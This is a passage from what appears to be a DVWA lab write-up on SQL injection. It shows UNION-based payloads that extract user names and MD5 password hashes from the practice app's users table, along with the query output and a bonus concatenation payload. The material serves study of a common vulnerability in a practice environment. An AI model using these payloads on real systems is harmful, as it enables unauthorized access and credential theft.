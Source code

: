     - The payload was `1' UNION select first_name, password from users where '1' = '1`.
     
    - The results will display data from two separate queries:

       - The results from the value of `1`.

       - The first name from the database (displayed in the "First name" field) and the password field from the database (displayed in the "Surname" field), for all the other users:
    
          ```
            ID: 1' UNION select first_name, password from users where '1' = '1
            First name: admin
            Surname: admin

            ID: 1' UNION select first_name, password from users where '1' = '1
            First name: admin
            Surname: 5f4dcc3b5aa765d61d8327deb882cf99

            ID: 1' UNION select first_name, password from users where '1' = '1
            First name: Gordon
            Surname: 575e22bc356137a41abdef379b776dba

            ID: 1' UNION select first_name, password from users where '1' = '1
            First name: Hack
            Surname: 97b9308f6a1f6a8524a91450dca473fa

            ID: 1' UNION select first_name, password from users where '1' = '1
            First name: Pablo
            Surname: 8c7c9b1149e9de712b9e5abab45d700c

            ID: 1' UNION select first_name, password from users where '1' = '1
            First name: Bob
            Surname: 4a02ce029a840716c61ee8fcda10158e`    
          ```

    - This resembles the results of the DB Fiddle query: 
  
      | first_name | last_name                        |
      | ---------- | -------------------------------- |
      | admin      | admin                            |
      | admin      | 5f4dcc3b5aa765d61d8327deb882cf99 |
      | gordon     | 575e22bc356137a41abdef379b776dba |
      | hack       | 97b9308f6a1f6a8524a91450dca473fa |
      | pablo      | 8c7c9b1149e9de712b9e5abab45d700c |
      | bob        | 4a02ce029a840716c61ee8fcda10158e |

5. **Bonus**: Use a single payload to pull the first name, last name, and password from the table. 

    - The fifth query was `select first_name, last_name from users where user_id = '1' UNION select concat(first_name,last_name), password from users where '1' = '1'`.
        
    - The payload was `1' UNION select concat(first_name,last_name), password from users where '1' = '1`.
     